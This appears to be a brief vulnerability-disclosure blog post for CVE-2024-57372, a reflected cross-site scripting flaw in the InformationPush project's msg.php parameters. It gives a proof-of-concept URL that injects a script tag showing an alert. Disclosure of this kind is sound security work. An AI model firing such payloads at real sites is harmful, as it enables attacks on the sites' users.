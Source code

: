 ```yaml
---
title:  "CVE-2024-57372: kaixin1995's InformationPush"
date:   2025-01-16
tags: [posts]
excerpt: "Discovery of CVE-2024-57372"
---
```

Explanation of CVE-2024-57372
---
Cross-site Scripting (XSS) vulnerability in InformationPush master version allows a remote attacker to obtain sensitive information via the ```title```, ```time```, and ```msg``` parameters.

Vulnerable Code:
<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57372-InformationPush-Code.JPG" alt="">

Proof-of-Concept: http://<DOMAIN_NAME>/InformationPush/msg.php?title=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E&time=test&msg=test
<img src="{{ site.url }}{{ site.baseurl }}/images/CVE-2024-57372-InformationPush-POC.JPG" alt="">

References
---
1. [CVE Link] - Link to the CVE
2. [InformationPush GitHub](https://github.com/kaixin1995/InformationPush)

